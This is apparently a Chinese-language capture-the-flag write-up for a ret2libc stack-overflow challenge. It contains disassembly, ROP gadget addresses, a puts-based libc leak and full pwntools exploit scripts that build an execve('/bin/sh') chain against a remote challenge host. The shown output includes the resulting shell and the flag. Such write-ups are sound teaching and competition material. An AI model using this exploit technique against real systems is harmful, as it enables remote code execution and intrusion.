

# login

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  init(a1: argc, a2: argv, a3: envp);
  if ( flag_0 > 0 )
  {
    puts(s: "[!] Warning: Temporal loop detected. You can't return to main!");
    exit(status: 0);
  }
  ++flag_0;
  puts(s: "Welcome to the Ret2Libc challenge!");
  puts(s: "Hope you can learn something!");
  vuln();
  return 0;
}
```

`vuln` ：

```c
int vuln()
{
  _BYTE buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts(s: "Input your payload: ");
  read(fd: 0, buf, nbytes: 0x100u);
  return puts(s: "Done!");
}
```

有 `read` 函数，并且没有缓冲区（长度 32 要用）溢出检查，可以利用。

为了拿到 `system("/bin/sh")` ，首先要取得 libc `system` 函数和 `/bin/sh` 字符串的地址：

```
.text:0000000000050D70 ; Alternative name is 'system'
.text:0000000000050D70
.text:0000000000050D70                 public __libc_system
```

`/bin/sh` 找不到，但是有个 `/bin/csh` ：

```
.rodata:00000000001DA127 aBinCsh         db '/bin/csh',0         ; DATA XREF: sub_11D710:loc_11D86E↑o
```

这个也可以。VA 取决于 libc base ，因为 `pwn` 里 GOT 有：

```
.got.plt:0000000000404000 ; ===========================================================================
.got.plt:0000000000404000
.got.plt:0000000000404000 ; Segment type: Pure data
.got.plt:0000000000404000 ; Segment permissions: Read/Write
.got.plt:0000000000404000 _got_plt        segment qword public 'DATA' use64
.got.plt:0000000000404000                 assume cs:_got_plt
.got.plt:0000000000404000                 ;org 404000h
.got.plt:0000000000404000 _GLOBAL_OFFSET_TABLE_ dq offset _DYNAMIC
.got.plt:0000000000404008 qword_404008    dq 0                    ; DATA XREF: sub_401020↑r
.got.plt:0000000000404010 qword_404010    dq 0                    ; DATA XREF: sub_401020+6↑r
.got.plt:0000000000404018 off_404018      dq offset puts          ; DATA XREF: _puts+4↑r
.got.plt:0000000000404020 off_404020      dq offset read          ; DATA XREF: _read+4↑r
.got.plt:0000000000404028 off_404028      dq offset setvbuf       ; DATA XREF: _setvbuf+4↑r
.got.plt:0000000000404030 off_404030      dq offset exit          ; DATA XREF: _exit+4↑r
.got.plt:0000000000404030 _got_plt        ends
.got.plt:0000000000404030
```

可以用外部函数 `puts` 把某个 libc 函数的 VA 打印出来，减掉 offset 得到 base 。这里就选 `puts` ，函数调用大概是：

```c
puts(va)
```

查到 `puts@plt` 地址：

```
.plt.sec:0000000000401070 ; ===========================================================================
.plt.sec:0000000000401070
.plt.sec:0000000000401070 ; Segment type: Pure code
.plt.sec:0000000000401070 ; Segment permissions: Read/Execute
.plt.sec:0000000000401070 _plt_sec        segment para public 'CODE' use64
.plt.sec:0000000000401070                 assume cs:_plt_sec
.plt.sec:0000000000401070                 ;org 401070h
.plt.sec:0000000000401070                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.plt.sec:0000000000401070 ; [0000000B BYTES: COLLAPSED FUNCTION _puts. PRESS CTRL-NUMPAD+ TO EXPAND]
.plt.sec:000000000040107B                 align 20h
```

到时候就调用这个。Payload 1 基本上就出来了：Padding 中 32 个 `A` 给 buffer ，8 个 `A` 给 saved RBP ；找一个 `pop rdi` ：

```
.text:0000000000401196 ; =============== S U B R O U T I N E =======================================
.text:0000000000401196
.text:0000000000401196 ; Attributes: bp-based frame
.text:0000000000401196
.text:0000000000401196                 public gadget
.text:0000000000401196 gadget          proc near
.text:0000000000401196 ; __unwind {
.text:0000000000401196                 endbr64
.text:000000000040119A                 push    rbp
.text:000000000040119B                 mov     rbp, rsp
.text:000000000040119E                 pop     rdi
.text:000000000040119F                 retn
.text:000000000040119F gadget          endp
.text:000000000040119F
.text:00000000004011A0 ; ---------------------------------------------------------------------------
.text:00000000004011A0                 pop     rsi
.text:00000000004011A1                 retn
.text:00000000004011A2 ; ---------------------------------------------------------------------------
.text:00000000004011A2                 pop     rdx
.text:00000000004011A3                 retn
.text:00000000004011A3 ; ---------------------------------------------------------------------------
.text:00000000004011A4                 db 90h
.text:00000000004011A5 ; ---------------------------------------------------------------------------
.text:00000000004011A5                 pop     rbp
.text:00000000004011A6                 retn
.text:00000000004011A6 ; } // starts at 401196
```

在 `0x40119E` 。构造 payload ：

```python
from pwn import *

io = remote("nc1.ctfplus.cn", 33175)

padding = 32 + 8
pop_rdi = 0x40119E
got_puts = 0x404018
ptl_puts = 0x401070

payload = (b'a' * padding + p64(pop_rdi) +
    p64(got_puts) + p64(ptl_puts))

print("[-] payload =", payload)
io.send(payload)

io.interactive()
```

运行：

```shell
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups $ python3 ./week2/pwn/4/1.py
[+] Opening connection to nc1.ctfplus.cn on port 33175: Done
[-] payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x00p\x10@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Welcome to the Ret2Libc challenge!
Hope you can learn something!
Input your payload: 
Done!
P\xce\xd9\x05\\x7f
[*] Got EOF while reading in interactive
```

得到了 `puts` 的 VA ，它和 libc base 都动态变化，运行时再计算。看到 VA 的上文是：

```
Done!
```

也就是 `Done!\n` ，用 `io.recvuntil(b"Done!\n")` 等待。多跑几次，数一下发现地址一直是 6 位，所以接收这么多：

```python
io.recv(6)
```

然后用两个 `\x00` 补齐。和 offset 相减可以得到 libc base ，分别用 `system` 和 `/bin/csh` 加，得到这两个的 VA 。

`main` 禁止我再回来，所以我就回到 `vuln` ，这个插在第一个 payload 末尾。总脚本是：

```python
from pwn import *

io = remote("nc1.ctfplus.cn", 33175)

# Universal

padding = 32 + 8

pop_rdi = 0x40119E
pop_rsi = 0x4011a0
pop_rdx = 0x4011a2
ret=0x40119F

vuln=0x40120C

got_puts = 0x404018

ptl_puts = 0x401070
ptl_read = 0x401080

# Payload 1

payload1 = (b'a' * padding + p64(pop_rdi) +
    p64(got_puts) + p64(ptl_puts) +
    p64(vuln))

print("[-] payload1 =", payload1)
io.send(payload1)

# Payload 2

io.recvuntil(b"Done!\n")
puts = u64(io.recv(6) + b'\x00\x00')

libc_base = puts - 0x80E50
system = 0x50D70 + libc_base
bincsh = 0x1DA127 + libc_base

payload2 = (b'a' * padding + p64(ret) + p64(pop_rdi) +
    p64(bincsh) + p64(system)
)

print("[-] payload2 =", payload2)
io.send(payload2)

io.interactive()
```

运行：

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups $ python3 ./week2/pwn/4/1.py
[+] Opening connection to nc1.ctfplus.cn on port 33175: Done
[-] payload1 = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x00p\x10@\x00\x00\x00\x00\x00\x0c\x12@\x00\x00\x00\x00\x00'
[-] payload2 = b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00'\xa1\x1d\x00\x00\x00\x00\x00p\r\x05\x00\x00\x00\x00\x00"
[*] Switching to interactive mode

Input your payload: 
Done!
[*] Got EOF while reading in interactive
$  
```

给 payload 2 加个 `retn` 对齐看看：

```python
ret=0x40119F
```

```python
payload2 = (b'a' * padding + p64(ret) + p64(pop_rdi) +
    p64(bincsh) + p64(system)
)
```

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups $ python3 ./week2/pwn/4/1.py
[+] Opening connection to nc1.ctfplus.cn on port 33175: Done
[-] payload1 = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x00p\x10@\x00\x00\x00\x00\x00\x0c\x12@\x00\x00\x00\x00\x00'
[-] payload2 = b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9f\x11@\x00\x00\x00\x00\x00\x9e\x11@\x00\x00\x00\x00\x00'\xc1\x97U'\x7f\x00\x00p-\x7fU'\x7f\x00\x00"
[*] Switching to interactive mode

Input your payload: 
Done!
ls: cannot access '/bin/csh': No such file or directory
[*] Got EOF while reading in interactive
$  
```

注意到：

```
ls: cannot access '/bin/csh': No such file or directory
```

我调用的分明是 `system` ，怎么错误提示是 `ls` 发出来的？而且没有 csh 这个文件？看看 `libc.so.6` ：

```c
// Alternative name is 'system'
__int64 __fastcall _libc_system(__int64 a1)
{
  if ( a1 != 0 )
    return sub_50900(a1);
  else
    return (unsigned int)sub_50900(a1: "exit 0") == 0;
}
```

`sub_50900` ：



原来的 `/bin/sh` 被篡改为了 `/bin/ls` 。考虑抛弃 `system` 接口，转向更低层的 `execve` 甚至 `syscall` ：

```c
unsigned __int64 __fastcall execve(const char *a1, const char *const *a2, const char *const *a3)
{
  unsigned __int64 result; // rax

  result = sys_execve(a1, a2, a3);
  if ( result >= 0xFFFFFFFFFFFFF001LL )
  {
    __writefsdword((unsigned int)&errno - 2264800, -(int)result);
    return -1;
  }
  return result;
}
```

用 `execve` ，要传递三个参数，重点是第一个即文件路径，可以把 `/bin/sh` 或者 `cat /flag` / `cat flag` 定地址写到 .bss 上，再用 RDI 传参。查到 `execve` 的 offset ：

```
.text:00000000000EB080 ; unsigned __int64 __fastcall execve(const char *, const char *const *, const char *const *)
```

下面用分析法想一下要做什么……我要运行：

> `int execve (const char *filename, char *const argv [], char *const envp[]);`

```c
execve (/*指针*/ bss, NULL, NULL);
```

这个 `bss` 指向 /bin/sh 字符串，所以我要用 `read` 刷写内存，把 `bss` 所指之处刷成 /bin/sh 。`/bin/sh` ，这是 7 bytes；`execve` 第一参数需要的是 C 字符串，本身不计算长度，所以要用 `\0` 结尾，共 8 bytes 。

那么用 `read` 刷写内存时，给它传参。Manual 手册：

> `ssize_t read(int fd, void *buf, size_t count);`
>
> `read()` 从文件描述符 `fd` 中读取 `count` 字节的数据并放入从 `buf` 开始的缓冲区中.

因为 `/bin/sh` 在文件里找不到，所以只能通过 stdin 传递进去了，fd 为 0 。形参 `buf` 就是实参 `bss` ，我要刷到它所指的地方。

刷的内容从 `*bss` 处开始依次为：

- `/` `b` `i` `n` `/` `s` `h` `\0`（ `/bin/sh`）

所以读 8 字节就行了，`count` 为 8 。综上所述：

```c
read(0, /*指针*/ bss, 8)
```

现在的问题是找 `bss` 。`pwn` .bss 段里边：

```
.bss:0000000000404060 ; ===========================================================================
.bss:0000000000404060
.bss:0000000000404060 ; Segment type: Uninitialized
.bss:0000000000404060 ; Segment permissions: Read/Write
.bss:0000000000404060 _bss            segment align_32 public 'BSS' use64
.bss:0000000000404060                 assume cs:_bss
.bss:0000000000404060                 ;org 404060h
.bss:0000000000404060                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.bss:0000000000404060                 public stdout@GLIBC_2_2_5
.bss:0000000000404060 ; FILE *stdout
.bss:0000000000404060 stdout@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:00000000003FF4B0↑o
.bss:0000000000404060                                         ; init+26↑r
.bss:0000000000404060                                         ; Alternative name is 'stdout'
.bss:0000000000404060                                         ; Copy of shared data
.bss:0000000000404068                 align 10h
.bss:0000000000404070                 public stdin@GLIBC_2_2_5
.bss:0000000000404070 ; FILE *stdin
.bss:0000000000404070 stdin@GLIBC_2_2_5 dq ?                  ; DATA XREF: LOAD:00000000003FF4C8↑o
.bss:0000000000404070                                         ; init+8↑r
.bss:0000000000404070                                         ; Alternative name is 'stdin'
.bss:0000000000404070                                         ; Copy of shared data
.bss:0000000000404078                 align 20h
.bss:0000000000404080                 public stderr@GLIBC_2_2_5
.bss:0000000000404080 ; FILE *stderr
.bss:0000000000404080 stderr@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:00000000003FF4E0↑o
.bss:0000000000404080                                         ; init+44↑r
.bss:0000000000404080                                         ; Alternative name is 'stderr'
.bss:0000000000404080                                         ; Copy of shared data
.bss:0000000000404088 completed_0     db ?                    ; DATA XREF: __do_global_dtors_aux+4↑r
.bss:0000000000404088                                         ; __do_global_dtors_aux+16↑w
.bss:0000000000404089                 align 4
.bss:000000000040408C flag_0          dd ?                    ; DATA XREF: main+12↑r
.bss:000000000040408C                                         ; main:loc_401284↑r ...
.bss:000000000040408C _bss            ends
.bss:000000000040408C
```

从 `0x404068` 开始：

```
.bss:0000000000404068                 db    ? ;
.bss:0000000000404069                 db    ? ;
.bss:000000000040406A                 db    ? ;
.bss:000000000040406B                 db    ? ;
.bss:000000000040406C                 db    ? ;
.bss:000000000040406D                 db    ? ;
.bss:000000000040406E                 db    ? ;
.bss:000000000040406F                 db    ? ;
```

这个地方正好有 8 bytes ，可以填充字符串。所以 payload 2 可以这样改：

```python
payload2 = (b'a' * padding +
    p64(pop_rdi) + p64(0) +
    p64(pop_rsi) + p64(bss) +
    p64(pop_rdx) + p64(8) +
    p64(ptl_read) +
    p64(pop_rdi) + p64(bss) +
    p64(pop_rsi) + p64(0) +
    p64(pop_rdx) + p64(0) +
    p64(execve)
)

data = (
    b'/bin/sh\x00'
)
```

然后把 `payload2` 和 `data` 全部发上去。这样就得到了整个脚本：

```python
from pwn import *

io = remote("nc1.ctfplus.cn", 37693)

# Universal

padding = 32 + 8

pop_rdi = 0x40119E
pop_rsi = 0x4011a0
pop_rdx = 0x4011a2

vuln=0x40120C

got_puts = 0x404018

ptl_puts = 0x401070
ptl_read = 0x401080

# Payload 1

payload1 = (b'a' * padding + p64(pop_rdi) +
    p64(got_puts) + p64(ptl_puts) +
    p64(vuln))

print("[-] payload1 =", payload1)
io.send(payload1)

# Payload 2

io.recvuntil(b"Done!\n")
puts = u64(io.recv(6) + b'\x00\x00')

libc_base = puts - 0x80E50
bss = 0x404068
execve = libc_base + 0xeb080

payload2 = (b'a' * padding +
    p64(pop_rdi) + p64(0) +
    p64(pop_rsi) + p64(bss) +
    p64(pop_rdx) + p64(8) +
    p64(ptl_read) +
    p64(pop_rdi) + p64(bss) +
    p64(pop_rsi) + p64(0) +
    p64(pop_rdx) + p64(0) +
    p64(execve)
)

data = (
    b'/bin/sh\x00'
)

print("[-] payload2 =", payload2)
io.send(payload2)
print("[-] data =", payload2)
io.send(data)

io.interactive()
```

运行：

```bash
(base) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups $ conda activate sage
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups $ python3 ./week2/pwn/4/solve.py 
[+] Opening connection to nc1.ctfplus.cn on port 37693: Done
[-] payload1 = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x00p\x10@\x00\x00\x00\x00\x00\x0c\x12@\x00\x00\x00\x00\x00'
[-] payload2 = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x11@\x00\x00\x00\x00\x00h@@\x00\x00\x00\x00\x00\xa2\x11@\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x80\x10@\x00\x00\x00\x00\x00\x9e\x11@\x00\x00\x00\x00\x00h@@\x00\x00\x00\x00\x00\xa0\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa2\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\xc0\xacW\xd4\x7f\x00\x00'
[-] data = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x11@\x00\x00\x00\x00\x00h@@\x00\x00\x00\x00\x00\xa2\x11@\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x80\x10@\x00\x00\x00\x00\x00\x9e\x11@\x00\x00\x00\x00\x00h@@\x00\x00\x00\x00\x00\xa0\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa2\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\xc0\xacW\xd4\x7f\x00\x00'
[*] Switching to interactive mode

Input your payload: 
Done!
$ ls
flag
ld-linux-x86-64.so.2
libc.so.6
pwn
$ cat flag
0xGame{ff37c125-29a3-45b3-ae55-531f03ef6e17}
$  
```

从而得到 flag 为 `0xGame{ff37c125-29a3-45b3-ae55-531f03ef6e17}` 。